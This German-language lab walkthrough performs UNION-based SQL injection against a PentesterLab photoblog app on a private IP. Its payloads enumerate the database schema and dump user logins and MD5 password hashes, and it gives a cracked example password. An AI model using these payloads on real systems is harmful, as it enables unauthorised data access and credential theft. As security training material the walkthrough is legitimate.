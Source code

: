 # SQL Injection to Shell – Exploitation Walkthrough



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Erste Tests](#erste-tests)
- [Datenbankaufbau erkunden](#datenbankaufbau-erkunden)
- [Benutzeranmeldeinformationen extrahieren](#benutzeranmeldeinformationen-extrahieren)
- [Haftungsausschluss](#haftungsausschluss)





<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Einleitung

Dieses Dokument beschreibt einen vollständigen SQL-Injection-Angriff mit dem Ziel, Informationen aus der Datenbank zu extrahieren und Zugangsdaten zu erlangen. Die genutzte Zielanwendung basiert auf einer MySQL-Datenbank.

- **MySQL-Version:** 5.1.63-0+squeeze1  
- **Datenbank:** photoblog  
- **Benutzer:** pentesterlab@localhost  
- **Datenverzeichnis:** /var/lib/mysql/  

Ziel der folgenden Schritte ist es, über SQL Injection Zugriff auf sensible Daten zu erlangen, die zur weiteren Kompromittierung des Systems verwendet werden können.





<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Erste Tests

### Basistest
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,2,3,4 --+
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Version Anzeigen
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,version(),3,4 --+
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Aktive Datenbank anzeigen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,database(),3,4 --+
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Benutzer anlegen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,user(),3,4 --+
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Datenbankaufbau erkunden

### Datenbanken auflisten

```sql
UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata
```

**Ergebnis Beispiel:**
- information_schema
- photoblog

**Ziel-Datenbank: Beispiel:**
- photoblog



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Tabellen in der photoblog-Datenbank

```sql
UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()
```

**Ergebnis Beispiel:**
- categories
- pictures
- users



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Spalten der Tabelle `users`

```sql
UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name=0x7573657273
```

***HINWEIS:*** 
0x7573657273 ist Hexadezimal aus dem Wort users

**Ergebnis Beispiel:**
- id
- login
- password



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Benutzeranmeldeinformationen extrahieren

```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,group_concat(id,0x3a3a,login,0x3a3a,password),3,4 FROM users
```

**Ergebnis (entschlüsselt):** **Beispiel**
```cpp
1::admin::8efe310f9ab3efeae8d410a8e0166eb2
```

**Anmeldeinformationen:** **Beispiel**
- Benutzername: admin
- Passwort-Hash (MD5): 8efe310f9ab3efeae8d410a8e0166eb2
- Klartext-Passwort: P4ssw0rd





<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---